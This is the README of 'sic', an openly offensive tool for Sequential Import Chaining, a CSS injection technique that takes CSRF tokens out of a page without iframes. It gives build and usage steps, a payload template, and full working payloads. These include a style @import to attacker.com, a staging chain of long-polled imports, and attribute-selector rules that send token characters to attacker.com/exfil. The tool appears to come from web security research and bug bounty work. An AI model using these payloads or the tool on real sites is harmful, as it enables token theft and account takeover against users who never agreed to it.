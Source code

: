 # Sequential Import Chaining

Typical CSS injection requires an attacker to load the context a number of times to exfiltrate sensitive tokens from a page. Usually the vector for this is via iframing which isn't always possible, especially if the target is using `x-frame-options: deny` or `x-frame-options: sameorigin`. This can be further complicated if the victim needs to interact with the target to trigger the injection (perhaps due to dynamic behavior on the page).

Sequential import chaining is a technique that enable a quicker, easier, token exfiltration even in the cases where framing isn't possible or the dynamic context is only occasionally realized.

### Blog Post
I wrote a blog post on this. Read about it [here!](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)

## Prerequisites for Attack

This attack only works if the attacker at least one of these: 

* Script tag injection (HTML injection, for example)
* Control of CSS at the top of a style tag.

The first case is probably more likely and will work even if filtered through vanilla DOM Purify.

## Building

1. Install RustUp (https://rustup.rs/ - `curl https://sh.rustup.rs -sSf | sh`)
2. Install the nightly (`rustup install nightly`)
3. Default to nightly (`rustup default nightly`)
4. Build with cargo (`cargo build --release`)

You will find the built binary at `./target/release/sic`

## Usage
`sic` has documentation on the available flags when calling `sic -h` but the following is information for general usage.

* `-p` will set the lower port that `sic` will operate on. By default this is 3000. `sic` will also listen on port `port + 1` (by default 3001) to circumvent a technical limitation in most browsers regarding open connection limits.
* `--ph` sets the hostname that the "polling host" will operate on. This can either be the lower or higher operating port, though it's traditionally the lower port. Defaults to `http://localhost:3000`. This _must_ be different than `--ch`
* `--ch` similar to `--ph` but this sets the "callback host" where tokens are sent. Defaults to `http://localhost:3001`. This _must_ be different than `--ph`.
* `-t` specifies the template file used to generate the token exfiltration payloads.
* `--charset` specifies the set of characters that may exist in the target token. Defaults to alphanumerics (`abc...890`).

A standard usage of this tool may look like the following:
```
./sic -p 3000 --ph "http://localhost:3000" --ch "http://localhost:3001" -t my_template_file
```

And the HTML injection payload you might use would look like:
```
<style>@import url(http://localhost:3000/staging?len=32);</style>
```

The `len` parameter specifies how long the token is. This is necessary for `sic` to generate the appropriate number of `/polling` responses. If unknown, it's safe to use a value higher than the total number of chars in the token.

### Advanced Logs
`sic` will print minimal logs whenever it receives any token information; however, if you want more detailed information advanced logging is supported through an environment variable `RUST_LOG`.

```
RUST_LOG=info ./sic -t my_template_file
```

### Templates
The templating system is very straightforward for `sic`. There are two actual templates (probably better understood as 'placeholders'):
* `{{:token:}}` - This is the current token that we're attempting to test for. This would be the `xyz` in `input[name=csrf][value^=xyz]{...}`
* `{{:callback:}}` - This is the address that you want the browser to reach out to when a token is determined. This will be the callback host (`--ch`). All the information `sic` needs to understand what happened client-side will be in this url.

An example template file might look like this:
```
input[name=csrf][value^={{:token:}}] { background: url({{:callback:}}); }
```

`sic` will automatically generate all of the payloads required for your attack and make sure it's pointing to the right callback urls.

### HTTPS
HTTPS is not directly support via `sic`; however, it's possible to use a tool like nginx to set up a reverse proxy in front of `sic`. An example configuration is found in the [example nginx config](/example_nginx.conf) file thoughtfully crafted up by [nbk_2000](https://twitter.com/nbk_2000).

After nginx is configured, you would run `sic` using a command similar to the following:

```
./sic -p 3000 --ph "https://a.attacker.com" --ch "https://b.attacker.com" -t template_file
```

Note that the ports on `--ph` and `--ch` match up with the ports nginx is serving and not `sic`. 

## Technique Description

For a better story and additional information, please see my blog post on [Sequential Import Chaining here](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b).

The idea behind CSS injection token exfiltration is simple: You need the browser to evaluate your malicious css once, send an outbound request with the next learned token, and repeat. 

Obviously the "repeat" part is normally done using a full frame reload (iframing, or tabs... blah).

However, we don't actually need to reload the frame to get the browser to reevaluate *new* CSS.

Sequential Import Chaining uses 3 easy steps to trick some browser into performing multiple evaluations:

1. Inject an `@import` rule to the staging payload 
2. Staging payload uses `@import` to begin long-polling for malicious payloads
3. Payloads cause browser to call out using `background-img: url(...)` causing the next long-polled `@import` rule to be generated and returned to the browser.

## Example

Here's an example of what these might look like:

### Payload
`<style>@import url(http://attacker.com/staging?len=32);</style>`

### Staging
```
@import url(http://attacker.com/lp?len=0);
@import url(http://attacker.com/lp?len=1);
@import url(http://attacker.com/lp?len=2);
...
@import url(http://attacker.com/lp?len=31); // in the case of a 32 char long token
```

### Long-polled Payload (length 0)
This is a unique, configurable template in `sic` because this part is very context specific to the vulnerable application.
```
input[name=xsrf][value^=a] { background: url(http://attacker.com/exfil?t=a); }
input[name=xsrf][value^=b] { background: url(http://attacker.com/exfil?t=b); }
input[name=xsrf][value^=c] { background: url(http://attacker.com/exfil?t=c); }
...
input[name=xsrf][value^=Z] { background: url(http://attacker.com/exfil?t=Z); }
```

After the browser calls out to `http://attacker.com/exfil?t=<first char of token>`, `sic` records the token, generate the next long-polled payload, and return a response for `http://attacaker.com/lp?len=1`. 

### Long-polled Payload (length 1 - given `s` as first char)
```
input[name=xsrf][value^=sa] { background: url(http://attacker.com/exfil?t=sa); }
input[name=xsrf][value^=sb] { background: url(http://attacker.com/exfil?t=sb); }
input[name=xsrf][value^=sc] { background: url(http://attacker.com/exfil?t=sc); }
...
input[name=xsrf][value^=sZ] { background: url(http://attacker.com/exfil?t=sZ); }
```

This repeats until no more long-polled connections are open.

----

Shoutout to the following hackers for help in one way or another.

* [0xacb](https://twitter.com/0xACB)
* [cache-money](https://twitter.com/itscachemoney)
* [Shubs](https://twitter.com/infosec_au)
* [Sean](https://twitter.com/seanyeoh)
* [Ruby](https://twitter.com/_ruby)
* [vila](https://twitter.com/cgvwzq)
* [nbk_2000](https://twitter.com/nbk_2000)
